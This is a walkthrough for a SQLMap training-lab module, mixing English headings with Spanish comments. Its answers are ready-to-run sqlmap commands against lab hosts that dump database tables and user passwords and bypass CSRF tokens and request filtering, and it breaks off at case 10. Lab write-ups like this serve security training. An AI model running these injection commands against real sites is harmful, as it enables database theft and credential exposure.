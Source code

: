 # SQLMap Essentials

{% file src="../.gitbook/assets/Sqlmap_Essentials_Module_Cheat_Sheet.pdf" %}

## Getting Started

### SQLMap Overview

#### Preguntas

**What's the fastest SQLi type?**

UNION query-based

## Building Attacks

### Running SQLMap on an HTTP Request

#### Preguntas

**What's the contents of table flag2? (Case #2)**

Vemos cómo se llaman las bases de datos.

```
sqlmap -u 'http://94.237.57.211:53268/case2.php' --data 'id=1*' --method POST -H 'Content-Type: application/x-www-form-urlencoded' --dbs
```

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Sabiendo como se llama realizamos lo siguiente para ver lo que contiene en dicha tabla.

```
 sqlmap -u 'http://94.237.57.211:53268/case2.php' \
  --data 'id=1*' --method POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -D testdb -T flag2 --dump
```

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

**What's the contents of table flag3? (Case #3)**

```
sqlmap -u "http://94.237.57.211:53268/case3.php" --cookie 'id=1*' -T flag3 --dump
```

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

What's the contents of table flag4? (Case #4)

```
sqlmap -u 'http://94.237.57.211:53268/case4.php' -H 'Content-Type: application/json' --data '{"id":1}' -T flag4 --dump --method POST
```

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

### Attack Tuning

#### Preguntas

**What's the contents of table flag5? (Case #5)**

```
sqlmap -u 'http://94.237.50.221:57391/case5.php?id=1' -T flag5 --no-cast --dump --batch --risk 3 --level 5
```

<figure><img src="../.gitbook/assets/image (1709).png" alt=""><figcaption></figcaption></figure>



**What's the contents of table flag6? (Case #6)**

```
sqlmap -u 'http://94.237.50.221:57391/case6.php?col=id' -T flag6 --dump --batch --risk 3 --level 5 --prefix='`)'
```

<figure><img src="../.gitbook/assets/image (1710).png" alt=""><figcaption></figcaption></figure>

**What's the contents of table flag7? (Case #7)**

```
sqlmap -u 'http://94.237.50.221:57391/case7.php?id=1' --union-cols 5-8 --level=3 --risk=3 --dump -T flag7 --techniqu
e=U -D testdb
```

<figure><img src="../.gitbook/assets/image (1711).png" alt=""><figcaption></figcaption></figure>

## **Database Enumeration**

#### Preguntas

**What's the contents of table flag1 in the testdb database? (Case #1)**

```
sqlmap -u 'http://83.136.254.55:50741/case1.php?id=1' -T flag1 --dump --batch --risk 3 --level 5 --dbms MYSQL -D testdb
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Advanced Database Enumeration

**What's the name of the column containing "style" in it's name? (Case #1)**

```
sqlmap -u 'http://83.136.254.55:50741/case1.php?id=1' --batch --search -C "style"
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

**What's the Kimberly user's password? (Case #1)**

```
 sqlmap -u 'http://83.136.254.55:50741/case1.php?id=1' --dump --batch --columns -C name,password -T users
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

## Advanced SQLMap Usage

### Bypassing Web Application Protections

#### Preguntas

**What's the contents of table flag8? (Case #8)**

Primero capturamos la petición.

<figure><img src="../.gitbook/assets/image (1712).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r token.txt -p id --csrf-token="t0ken" \
  --csrf-url="http://94.237.60.55:51043/case8.php" \
  --random-agent --batch \
  --search -T flag8
```

<figure><img src="../.gitbook/assets/image (1713).png" alt=""><figcaption></figcaption></figure>

**What's the contents of table flag9? (Case #9)**

Como se tiene un valor único hay que poner el parámetro `--randomize='uid'`

<figure><img src="../.gitbook/assets/image (1714).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -u "http://94.237.60.55:51043/case9.php?id=1&uid=2560757563" \
  -p id \
  --batch \
  --random-agent \
  --randomize=uid \
  -T flag9 --dump --no-cast
```

<figure><img src="../.gitbook/assets/image (1715).png" alt=""><figcaption></figcaption></figure>

**What's the contents of table flag10? (Case #10)**

Parece ignorar cualquier solicitud http enviada a través de sqlmap. Así que para eludir esto, usaremos un agente aleatorio.

